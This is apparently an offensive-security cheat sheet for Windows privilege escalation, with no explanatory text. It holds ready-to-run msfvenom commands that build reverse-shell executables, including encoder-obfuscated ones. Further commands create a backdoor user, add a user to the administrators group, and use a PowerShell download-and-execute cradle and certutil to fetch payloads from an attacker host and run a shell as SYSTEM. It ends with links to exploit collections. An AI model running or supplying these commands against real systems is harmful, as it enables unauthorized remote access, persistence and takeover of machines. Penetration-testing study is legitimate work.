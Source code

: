 ```
msfvenom -l                 # Payloads
msfvenom -l encoders        # Encoders

# MSFVENOM REVERSE SHELL
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=9001 -f exe -o rvs.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=9001 -e shikata_ga_nai -i 3 -f exe -o rvs_encoded.exe


# MSFVENOM CREATE USER
msfvenom -p windows/adduser USER=<USERNAME> PASS=<PASSWORD> -f exe -o user.exe

# MSFVENOM EXECUTE COMMAND
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://$IP/nishang.ps1')\"" -f exe -o pay.exe
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe -o pay.exe

# ESCALATE ADMIN USER TO SYSTEM PRIVILEGES
certutil -urlcache -f http://$IP/PsExec64.exe PsExec64.exe
.\PsExec64.exe -accepteula -i -s C:\PrivEsc\rvs.exe

```

# TOOLS
- [Watson](https://github.com/rasta-mouse/Watson)
- [Sherlock](https://github.com/rasta-mouse/Sherlock)
- [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [WESNG](https://github.com/bitsadmin/wesng)
- [Windows Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/)
- [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)
- [SharpUp](https://github.com/GhostPack/SharpUp)

# EXPLOIT BINARIES
- [PoC auto collect from GitHub](https://github.com/nomi-sec/PoC-in-GitHub)
- [Windows Exploits - Short List Pulled from SecWiki](https://github.com/abatchy17/WindowsExploits)
- [THE SecWiki Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)
